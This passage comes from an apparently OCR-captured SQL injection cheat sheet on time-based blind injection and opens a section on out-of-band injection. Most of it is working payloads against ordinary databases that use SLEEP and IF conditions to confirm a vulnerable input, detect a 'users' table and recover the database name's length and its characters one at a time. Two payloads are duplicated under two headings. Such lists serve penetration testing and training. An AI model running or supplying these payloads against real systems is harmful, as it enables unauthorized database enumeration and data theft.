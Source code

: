 If the response is delayed, it indicates the condition is true.

#### Time-Based SQLi Types

- **Basic Time Delay Test:** Causes the database to sleep for 5 seconds. If the response is delayed, the injection point is likely vulnerable.

```
' OR SLEEP(5) -- -
```

- **Conditional Time Delay:** Causes a 5-second delay if the condition `1=1` is true. Used to test if conditions can influence response time.

```
' AND IF(1=1, SLEEP(5), 0) -- -
```

#### Time-Based SQLi Enumeration

- **Basic Time Delay Test:** Causes the database to sleep for 5 seconds. If the response is delayed, the injection point is likely vulnerable.

```
' OR SLEEP(5) -- -
```

- **Conditional Time Delay:** Causes a 5-second delay if the condition `1=1` is true. Used to test if conditions can influence response time.

```
' AND IF(1=1, SLEEP(5), 0) -- -
```

- **Testing for Existence of a Table:** Causes a 5-second delay if the `users` table exists in the database.

```
' AND IF((SELECT COUNT(*) FROM information_schema.tables WHERE table_name='users') > 0, SLEEP(5), 0) -- -
```

- **Extracting Length of Database Name:** Causes a 5-second delay if the length of the current database name is 5 characters.

```
' AND IF(LENGTH(database())=5, SLEEP(5), 0) -- -
```

- **Extracting Specific Character in Database Name:** Causes a 5-second delay if the first character of the database name is 'a'. This can be repeated for each character.

```
' AND IF(SUBSTRING(database(), 1, 1)='a', SLEEP(5), 0) -- -
```

## Out-of-Band SQLi
Out-of-Band SQL Injection occurs when the attacker cannot use the same channel to inject the malicious code and retrieve the results. Instead, they rely on different channels, such as DNS or HTTP requests, to retrieve the data.
